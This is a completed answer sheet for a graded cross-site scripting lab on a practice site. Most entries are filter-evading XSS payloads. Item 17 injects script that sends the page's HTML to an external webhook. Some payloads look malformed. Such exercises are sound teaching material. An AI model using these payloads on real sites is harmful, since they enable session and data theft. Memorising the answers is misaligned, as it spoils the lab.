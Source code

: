 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
TODO: <script>success("HackedbyDedSec")</script>
```

# 2. No Script Allowed (3 points)

```
TODO: <scriptscript>success("HackedbyDedSec")</script>
```

# 3. One More Time, Like You Mean It (3 points)

```
TODO: <scripscriptt>success("HackedbyDedSec")</scripscriptt>
```

# 4. An Open-and-Shut Case (3 points)

```
TODO: <SCRIPT>success("HackedbyDedSec")</SCRIPT>
```

# 5. Time to Mix Things Up (3 points)

```
TODO: <scRIPT>success("HackedbyDedSec")</scRIPT>
```

# 6. A Picture is Worth a Thousand Words (3 points)

```
TODO: <img src=x onerror=success("HackedByDedSec")>
```

# 7. Between a Rock And a Hard Place (3 points)

```
TODO: <img src=x onload=onerror = success("HackedByDedSec")>
```

# 8. Angle of Death (6 points)

Attack input:

```
TODO: <<img src=x onerror=success("HackedByDedSec")>>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
TODO: " onload=success("HackedByDedSec") "
```

# 11. You Can't Win 'em All (6 points)

Attack input:

```
TODO: "" onload=success("HackedByDedSec") ""
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
TODO: ' onload=success("HackedByDedSec") ' 
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL: http://caloogle.xyz:4140/search?q=ss&lang=en " onload=success("HackedByDedSec") "

```
TODO: http://caloogle.xyz:4140/search?q=ss&lang=en ' onload=success("HackedByDedSec") '
```

# 15. The Early Bird Catches the Worm (3 points)

```
TODO: </script><script>success()</script>
```

# 16. Tying Up Loose Ends (3 points)

```
TODO: <<//script><script>success()<<//script>
```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```js
// TODO: 
function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://localhost:4000/17', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}
send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')
```

# 18. Congrats

N/A

# Əlavə qeydlər

```
Əlavə qeydlərinizi yazın
```
